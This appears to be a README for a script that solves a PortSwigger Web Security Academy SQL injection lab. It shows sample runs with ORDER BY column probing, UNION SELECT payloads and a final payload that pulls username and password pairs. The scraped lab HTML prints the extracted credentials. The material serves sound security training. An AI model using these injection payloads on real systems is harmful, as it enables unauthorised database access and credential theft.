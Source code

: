 # 🔐 SQL injection UNION attack, retrieving multiple values in a single column

This script is designed to test for basic SQL injection vulnerabilities in labs from PortSwigger's Web Security Academy Lab: [SSQL injection UNION attack, retrieving multiple values in a single column](https://portswigger.net/web-security/learning-paths/sql-injection/sql-injection-retrieving-multiple-values-within-a-single-column/sql-injection/union-attacks/lab-retrieve-multiple-values-in-single-column#). It targets endpoints like `/filter?category=` and checks whether a given payload successfully bypasses input validation.

---

## 🚀 How It Works

The script performs the following steps:

1. **Disables SSL warnings** to avoid certificate issues with lab URLs.
2. **Sets up a proxy** (default: `127.0.0.1:8080`) for interception via tools like Burp Suite.
3. **Accepts two arguments**:
   - `url`: The base URL of the lab.
   - `table`: Name of a separate table that needs be used during UNION SQL Injection.
   - `columns`: A list of columns can be passed by the user separated by space.
4. **Constructs the full request URL** by appending the payload to `/filter?category=`.
5. **Sends the request** and use beautiful soup library to fetch the password for administrator
6. **Prints the result** indicating whether the injection was successful.

---

## 🧪 Sample Usage

```bash
python3 unionRetrieveMultiValueInSingleColumn.py https://0aa800a003a881d480aa0dd20061002f.web-security-academy.net users username password
```

### ✅ Sample Output

```
(+) Targeting: https://0aa800a003a881d480aa0dd20061002f.web-security-academy.net
(+) Determining number of columns using ORDER BY...

    ➤ Testing payload: ' ORDER BY 1--
    ➤ Testing payload: ' ORDER BY 2--
    ➤ Testing payload: ' ORDER BY 3--

(✓) Found error at column 3, so total columns = 2

(+) Testing which of 2 columns accepts string data...

    ➤ Testing payload: ' UNION SELECT 'test123',null--
    ✗ Column 1 caused an error. Trying next...

    ➤ Testing payload: ' UNION SELECT null,'test123'--

(✓) Column 2 accepts string data.

(+) Attempting to extract data from table 'users'...

    ➤ Final payload: ' UNION SELECT null, username || '~' || password FROM users--

(✓) Administrator credentials found:

    ➤ Username: administrator
    ➤ Password: voif5hady7oywwwt6twd
```

---

## 📌 Lab-Specific Note

For this particular lab, the script checks whether the response contains the administrator password in a particular html tag using web scraping to determine success. You can modify this logic in the code to match other labs or contexts.

---

## 📦 Requirements

Install dependencies using:

```bash
pip install -r requirements.txt
```

---

## 📦 Walkthrough of the code
[Code Walkthrough](https://medium.com/@adhithyasivanesh/portswigger-web-security-academy-labs-sqli-lab-1-retrieving-hidden-data-fe40ea356d5d)

## Sample HTML response which was scrapped

```HTML
HTTP/2 200 OK
Content-Type: text/html; charset=utf-8
Set-Cookie: session=d4DbcIvc5dotUTVqJl5yt2x1lGxy1gb8; Secure; HttpOnly; SameSite=None
X-Frame-Options: SAMEORIGIN
Content-Length: 4310

<!DOCTYPE html>
<html>
    <head>
        <link href=/resources/labheader/css/academyLabHeader.css rel=stylesheet>
        <link href=/resources/css/labsEcommerce.css rel=stylesheet>
        <title>SQL injection UNION attack, retrieving multiple values in a single column</title>
    </head>
    <body>
        <script src="/resources/labheader/js/labHeader.js"></script>
        <div id="academyLabHeader">
            <section class='academyLabBanner'>
                <div class=container>
                    <div class=logo></div>
                        <div class=title-container>
                            <h2>SQL injection UNION attack, retrieving multiple values in a single column</h2>
                            <a id='lab-link' class='button' href='/'>Back to lab home</a>
                            <a class=link-back href='https://portswigger.net/web-security/sql-injection/union-attacks/lab-retrieve-multiple-values-in-single-column'>
                                Back&nbsp;to&nbsp;lab&nbsp;description&nbsp;
                                <svg version=1.1 id=Layer_1 xmlns='http://www.w3.org/2000/svg' xmlns:xlink='http://www.w3.org/1999/xlink' x=0px y=0px viewBox='0 0 28 30' enable-background='new 0 0 28 30' xml:space=preserve title=back-arrow>
                                    <g>
                                        <polygon points='1.4,0 0,1.2 12.6,15 0,28.8 1.4,30 15.1,15'></polygon>
                                        <polygon points='14.3,0 12.9,1.2 25.6,15 12.9,28.8 14.3,30 28,15'></polygon>
                                    </g>
                                </svg>
                            </a>
                        </div>
                        <div class='widgetcontainer-lab-status is-notsolved'>
                            <span>LAB</span>
                            <p>Not solved</p>
                            <span class=lab-status-icon></span>
                        </div>
                    </div>
                </div>
            </section>
        </div>
        <div theme="ecommerce">
            <section class="maincontainer">
                <div class="container is-page">
                    <header class="navigation-header">
                        <section class="top-links">
                            <a href=/>Home</a><p>|</p>
                            <a href="/my-account">My account</a><p>|</p>
                        </section>
                    </header>
                    <header class="notification-header">
                    </header>
                    <section class="ecoms-pageheader">
                        <img src="/resources/images/shop.svg">
                    </section>
                    <section class="ecoms-pageheader">
                        <h1>Gifts&apos; UNION SELECT null, username || &apos;~&apos; || password FROM users--</h1>
                    </section>
                    <section class="search-filters">
                        <label>Refine your search:</label>
                        <a class="filter-category" href="/">All</a>
                        <a class="filter-category" href="/filter?category=Accessories">Accessories</a>
                        <a class="filter-category" href="/filter?category=Clothing%2c+shoes+and+accessories">Clothing, shoes and accessories</a>
                        <a class="filter-category" href="/filter?category=Lifestyle">Lifestyle</a>
                        <a class="filter-category" href="/filter?category=Pets">Pets</a>
                        <a class="filter-category" href="/filter?category=Tech+gifts">Tech gifts</a>
                    </section>
                    <table class="is-table-list">
                        <tbody>
                        <tr>
                            <th>wiener~0g163eearebih36pgn65</th>
                        </tr>
                        <tr>
                            <th>carlos~k0fwfkvx0npqfftawr40</th>
                        </tr>
                        <tr>
                            <th>administrator~voif5hady7oywwwt6twd</th>
                        </tr>
                        </tbody>
                    </table>
                </div>
            </section>
            <div class="footer-wrapper">
            </div>
        </div>
    </body>
</html>
```